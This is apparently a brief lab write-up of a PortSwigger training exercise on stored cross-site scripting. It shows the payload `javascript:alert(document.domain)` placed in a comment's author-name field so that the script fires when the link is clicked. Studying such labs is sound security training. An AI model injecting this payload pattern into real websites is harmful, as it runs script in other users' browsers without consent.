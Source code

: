 # Lab: Stored XSS into anchor `href` attribute with double quotes HTML-encoded

## This lab contains a [stored cross-site scripting](https://portswigger.net/web-security/cross-site-scripting/stored) vulnerability in the comment functionality. To solve this lab, submit a comment that calls the `alert` function when the comment author name is clicked.

### payload `<a href="javascript:alert(document.domain)">`

### step1

![screenshot](./images/lab8_test_post.png)

submit form

![screenshot](./images/lab8_inspect_test.png)

payload is

```javascript
<a href="javascript:alert(document.domain)">
```

use `javascript:alert(document.domain)` into input name field

and submit
